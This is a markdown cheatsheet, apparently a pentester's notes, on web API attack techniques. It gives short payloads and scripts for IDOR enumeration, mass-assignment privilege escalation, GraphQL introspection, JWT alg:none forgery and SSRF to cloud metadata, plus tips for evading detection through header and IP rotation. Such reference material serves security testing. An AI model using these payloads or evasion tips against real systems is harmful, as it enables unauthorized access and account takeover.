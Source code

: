 ```yaml
---
date: 
tags:
  - Cheatsheet
  - Technique
  - Web
---
```



```table-of-contents
```



# VULNERABILITY TYPES & EXPLOITATION

## IDOR (Insecure Direct Object Reference)
- Mechanism: Missing object-level authorization
- Test: Sequential/pattern ID manipulation
- Exploit:

```javascript
  GET /api/user/123 → 200 OK
  GET /api/user/456 → 200 OK (Unauthorized access)
```

- Tools: Burp Repeater, Python requests


## Mass Assignment
- Mechanism: Overprivileged object binding
- Test: Add privileged parameters (role, isAdmin)
- Exploit:

```javascript
  POST /api/users
  {"email":"user@test.com","role":"admin"}
```

- Tools: Postman, curl


## GraphQL Abuse
- Mechanism: Excessive data exposure
- Test: Introspection queries
- Exploit:

```javascript
 query {__schema{types{name,fields{name}}}
```

- Tools: GraphQLmap, Altair


## JWT Issues
- Mechanism: Weak crypto/validation
- Test: Algorithm substitution (none/HS256)
- Exploit:

```json
Header: {"alg":"none"}
  Payload: {"user":"admin"}
```

- Tools: jwt_tool, Burp JWT Editor


## SSRF via Webhooks
- Mechanism: Unrestricted URL fetching
- Test: Internal endpoint probing
- Exploit:

```javascript
POST /api/webhook
  {"url":"http://169.254.169.254"}
```

- Tools: Collaborator, Interactsh



# ENDPOINT DISCOVERY METHODS
- Directory fuzzing: ffuf -w wordlist.txt -u `https://target.com/api/FUZZ`
- JS analysis: Extract endpoints from `/static/main.js`
- Documentation: Check `/swagger.json`, `/openapi.yaml`
- Mobile apps: Use `MobSF for APK analysis`



# ESSENTIAL TOOLS
| Tool          | Primary Use                | Command Example                  |
|---------------|----------------------------|----------------------------------|
| Burp Suite    | Request manipulation       | Send to Repeater/Intruder        |
| ffuf          | Endpoint discovery         | ffuf -w api_words.txt -u URL/FUZZ|
| Postman       | API chain testing          | Environment variables            |
| GraphQLmap    | GraphQL exploitation       | dump schema, field suggestions   |
| jwt_tool      | JWT manipulation           | python3 jwt_tool.py <JWT> -T     |



# EXPLOIT CODE SNIPPETS



# IDOR Testing (Python)
```python
import requests
for id in range(1000,1002):
    r = requests.get(f'https://target.com/api/user/{id}', 
                    headers={'Authorization': 'Bearer TOKEN'})
    print(f"{id}: {len(r.text)} chars")
```



# Mass Assignment (curl)
```bash
curl -X POST 'https://target.com/api/users' \
-H 'Content-Type: application/json' \
-d '{"email":"attacker@evil.com","is_admin":true}'
```



# GraphQL Introspection
```graphql
query GetEverything {
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}
```



# DEFENSE EVASION TECHNIQUES
- Request spacing: time.sleep(3) between calls
- Header rotation: Cycle User-Agent/X-Forwarded-For
- TLS fingerprinting: Mimic mobile app clients
- IP rotation: Proxy chains/Tor



# CRITICAL CHECKS
✓ Test all HTTP methods (GET/POST/PUT/PATCH/DELETE)
✓ Verify parameter pollution (param=1&param=2)
✓ Check .json/.xml alternatives (/api/users.json)
✓ Tamper with Content-Type headers



# Exploit Chain Example
1. Find /api/users/[ID] endpoint via fuzzing
2. Discover IDOR vulnerability
3. Extract admin ID via enumeration
4. Use mass assignment on /api/admin/profile
5. Achieve full compromise



# PRO TIPS 
• Always test API versions (v1 vs v2 auth)
• Capture mobile app traffic with MITMproxy
• Chain IDOR + JWT issues for account takeover
• Check for debug endpoints (/api/test, /dev)

